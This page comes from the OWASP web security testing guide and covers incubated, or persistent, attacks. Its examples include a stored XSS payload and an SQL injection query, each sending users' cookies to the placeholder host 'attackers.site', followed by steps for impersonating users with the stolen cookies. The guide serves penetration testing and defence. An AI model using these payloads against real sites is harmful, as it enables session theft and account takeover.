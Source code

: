 ```yaml
---

layout: col-document
title: WSTG - v4.1
tags: WSTG

---
```

# Testing for Incubated Vulnerability

|ID             |
|---------------|
|WSTG-INPV-14|

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

- The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
- Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

- File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting `CVE-2004-0200`, png images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
- Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting](02-Testing_for_Stored_Cross_Site_Scripting.md) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.
- SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1. Introduce `JavaScript` code as the value for the vulnerable field, for instance:
    `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`

2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at `attackers.site` host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as the following:

    ```html
     - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
         %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
         TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1
    ```

4. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

    ```sql
    SELECT field1, field2, field3`
     FROM table_x
     WHERE field2 = 'x';
        UPDATE footer
        SET notice = 'Copyright 1999-2030%20
            <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
        WHERE notice = 'Copyright 1999-2030';
    ```

2. Now, each user browsing the site will silently send his cookies to the `attackers.site` (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

- Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `back door`.
- To combat the `back door` issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

- [CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://www.cert.org/advisories/CA-2000-02.html)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### Whitepapers

- [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
